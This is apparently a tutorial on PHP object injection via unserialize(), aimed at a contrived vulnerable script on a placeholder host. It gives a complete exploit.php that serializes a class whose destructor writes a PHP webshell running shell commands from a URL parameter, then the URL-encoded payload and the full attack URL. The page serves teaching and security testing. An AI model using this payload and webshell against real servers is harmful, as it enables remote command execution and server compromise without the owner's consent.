 This somewhat contrived example takes the value of the HTTP GET url parameter `http://vulnserver.example/vuln.php?secureparam=...` and runs it through `unserialize()`. Which means we can easily inject into it.

The php file contains a class definition for `VulnClass` which contains a magic function `__destruct()`. As it so happens that `__destruct()` function actually writes the content of the class field `$data` to a file in the current web server directory with the filename being taken from class field `$out_file`.

So if we can create an Object from that class definition and set custom values for `$data` and `$out_file`, then we can write arbitary files in the same directory as the vulnerable php file.

So let's use this injection vector to create a php webshell.

On your own machine create your own version of the class and serialize it with a php script, named `exploit.php`:

```php
<?php
// Local file exploit.php
class VulnClass
{
	public $out_file = "shell.php";
	public $data = "<?php echo '<pre>' . shell_exec(urldecode(\$_GET['cmd'])) . '</pre>';?>";
}

print urlencode(serialize(new VulnClass));
print "\n";
?>
```

In your local terminal run: 
```bash
php exploit.php
``` 

It should output the serialized object string. But you will notice that we have also run the serialized string through the `urlencode()` standard function:

```php
O%3A9%3A%22VulnClass%22%3A2%3A%7Bs%3A8%3A%22out_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A70%3A%22%3C%3Fphp+echo+%27%3Cpre%3E%27+.+shell_exec%28urldecode%28%24_GET%5B%27cmd%27%5D%29%29+.+%27%3C%2Fpre%3E%27%3B%3F%3E%22%3B%7D
```

We need to urlencode the serialized object string since we will supply it as url parameter. This might not be necessary depending on the injection point. For instance the vulnerable php script might take its input from an HTTP cookie or HTTP request body instead.

Now we can supply that to the vulnerable php file and open it in burp repeater or our web browser:

```default
http://vulnserver.example/vuln.php?secureparam=O%3A9%3A%22VulnClass%22%3A2%3A%7Bs%3A8%3A%22out_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A70%3A%22%3C%3Fphp+echo+%27%3Cpre%3E%27+.+shell_exec%28urldecode%28%24_GET%5B%27cmd%27%5D%29%29+.+%27%3C%2Fpre%3E%27%3B%3F%3E%22%3B%7D
```

If this has worked then now there should be a webshell file located at: 
```default
http://vulnserver.example/shell.php
```
